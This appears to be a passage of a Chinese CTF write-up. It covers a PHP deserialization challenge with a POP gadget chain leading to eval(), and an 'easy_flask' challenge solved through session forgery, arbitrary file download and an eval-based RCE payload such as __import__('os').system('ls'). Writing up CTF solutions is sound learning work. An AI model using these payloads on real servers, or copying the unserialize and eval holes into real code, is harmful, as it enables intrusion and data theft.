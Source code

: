```php

    public function __destruct(){
        echo $this->aaa;
    }

    public function __invoke(){
        $this -> aaa = clone new EeE;
    }
}


$_ip = $_SERVER["HTTP_AAAAAA"];
unserialize($_ip);
echo($_ip);

//eval pop:EeE->__wakeup()=>aBoBg->__toString()=>w_wuw_w->__invoke()=>EeE->__clone()=>cycycycy->aaa()->eval()

//file_get_contents('check.php'):

```

思路:读取check.php 获取cipher函数，然后执行eval()

但是找了半天找不到 file_get_contents() 输出的机会

### easy_flask

flask session 伪造admin，key在示例里

伪造后可以下载 fake_flag,存在任意文件下载，下载 app.py

```py
@app.route('/hello/')
def hello_world():
    try:
        s = request.args.get('eval')
        return f"hello,{eval(s)}"
    except Exception as e:
        print(e)
        pass
        
    return "hello"
```

在 `hello` 下存在rce 

payload

```py
/hello?eval=__import__('os').system('ls')
```

但是回显为0，采用别的方式读取根目录

```py
/hello?eval=__import__('os').listdir('/')
```

得到 flag 文件名为 `flag_is_h3re`

过滤了 `print`

任意文件下载得到 flag



